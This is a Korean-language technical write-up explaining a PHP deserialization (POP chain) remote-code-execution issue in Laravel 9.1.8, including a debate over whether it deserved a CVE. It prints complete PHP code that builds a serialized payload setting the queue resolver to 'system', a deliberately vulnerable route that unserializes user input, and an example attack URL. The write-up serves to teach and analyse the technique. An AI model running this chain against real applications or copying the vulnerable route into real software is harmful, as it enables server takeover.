

### URL

https://github.com/1nhann/vulns/issues/1

### Target

- Laravel 9.1.8

### Prologue

이 글은 `unserialize` 가 위험한 이유와 `Property Oriented Programming` 기법을 활용하는 방법에 초점을 맞춰서 읽어주시면 감사하겠습니다

분석 글을 신나게 쓴 후 다시 소셜네트워크를 구경하는데 [이런 이야기](https://twitter.com/steventseeley/status/1526531480092037124)를 보게 되었습니다.



이 CVE가 Laravel Framework 내부 `unserialize` 메소드를 사용하는 부분에서 발생하는 것이 아닌 사용자가 `unserialize` 를 사용하면 발생하는 부분이었고 이는 CVE 번호를 할당받으면 안 된다는 주장이었습니다.

필자도 CVE 할당에 문제가 있음을 느꼈는데요. 이 취약점을 다른 공격기법으로 비유하면 `gets`에 대해 ROP Chain가 터진다고 할당받은 것인데 이런 CVE는 수백 수천 개도 나올 수 있지요.

하지만 이 글은 공격기법에 대한 설명이 주를 이루고 있어서 독자분들에게 여전히 도움이 될 수 있다고 판단하여 내리지는 않겠습니다.

### Explain

Laravel 9.1.8 버전에서 유저 입력을 `unserialize` 메소드를 통해 역직렬화 한 후 사용할 때 POP chain을 통해 RCE 할 수 있는 취약점이 발견되었습니다.

PHP는 [Magic Method](https://www.php.net/manual/en/language.oop5.magic.php)라고 하여 프로그래머가 명시적으로 호출하지 않아도 자동으로 호출되는 메소드들이 있습니다. 이 Magic Method를 유저의 입력값으로 덮어씌워 일종의 gadget으로 사용할 수 있습니다. 이 gadget들을 활용하여 exploit chain을 구성한 것을 Property Oriented Programming Chain이라고 합니다.

해당 취약점에서 사용하는 gadget은`PendingBroadcast.__destruct`와 `Dispatcher.dispatch($command)` 입니다.

`PendingBroadcast` 인스턴스가 소멸될 때 `__destruct` 메소드가 자동으로 호출됩니다.

```php
class PendingBroadcast
{
    /**
     * The event dispatcher implementation.
     *
     * @var \Illuminate\Contracts\Events\Dispatcher
     */
    protected $events;
    ...
	// illuminate/broadcasting/PendingBroadcast.php#L70-L73
    public function __destruct()
    {
        $this->events->dispatch($this->event);
    }
	...
}
```

이 메소드는 event dispatcher의 `dispatch` 메소드를 호출해주기 때문에 dispatch 호출이 필요할 때 gadget으로 사용할 수 있습니다.

`Illuminate\Bus\Dispatcher`는 `Illuminate\Contracts\Events\Dispatcher` 의 구현체입니다.

```php
// illuminate/bus/Dispatcher.php#L74-L79
public function dispatch($command)
{
    return $this->queueResolver && $this->commandShouldBeQueued($command)
                    ? $this->dispatchToQueue($command)
                    : $this->dispatchNow($command);
}

// illuminate/bus/Dispatcher.php#L202-205
protected function commandShouldBeQueued($command)
{
    return $command instanceof ShouldQueue;
}

// illuminate/bus/Dispatcher.php#L219
public function dispatchToQueue($command)
{
    $connection = $command->connection ?? null;
    $queue = call_user_func($this->queueResolver, $connection);
		...
}
```

 해당 객체 내 `dispatchToQueue` 메소드를 확인해 보면 `call_user_func`  를 사용하여 `$connection`을 인자로 하는 `QueueResolver` callback을 호출하게 됩니다.  `queueResolver`와 `$connection`는 원하는 값으로 지정할 수 있으므로 결과적으로 우리가 원하는 값을 인자로 하여 원하는 함수를 실행할 수 있는 가젯으로 쓸 수 있습니다.

앞서 `dispatch`를 호출할 수 있는 가젯을 찾은 상태에서 `dispatchToQueue`를 가젯으로 사용하려면 몇 가지 조건이 필요합니다.

- `$this->queueResolver != null`
- `$command instanceof ShouldQueue` == `True`

이 조건 들을 생각하면서 `system(cmd)` 함수를 실행하도록 Property Oriented Programming을 다음과 같이 할 수 있습니다.

1. `ShouldQueue`인터페이스를 implement한 Event 객체를 하나 만듭니다.
2. `Dispatcher.__construct`를 통해서 `queueResolver`를 `system`으로 지정해줍니다.
3. `PendingBroadcast.__construct`를 통해서 (1)에서 만든 Event 객체와 (2)에서 만든 Dispatcher를 각각 `event`와 `events`에 할당해주고 `event->$connection`을 `cmd`로 지정해줍니다.

이렇게 만든 객체를 직렬화해주고 인자로 보내면 됩니다.

위 프로그래밍은 아래 코드처럼 진행하면 됩니다.
 ```php
<?php
namespace Illuminate\Contracts\Queue{
    interface ShouldQueue
    {
        //
    }
}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct()
        {

        }
    }
    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct()
        {
            $this->event = new BroadcastEvent();
            $this->event->connection = "id";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}
namespace{
    $a = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($a));
}
?>
 ```
base64 encoding되어 나온 직렬화된 exploit은 아래와 같은 구조에서 RCE를 유발할 수 있습니다.

```php
<?php
use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\Illuminate\Http\Request $request) {
    $serializedObj = base64_decode($request->input("q"));
    unserialize($serializedObj);
    return "ok";
});
?>
/*   Attack Example
 *   <http://site/?q={generated_base64_code}>
 */
```
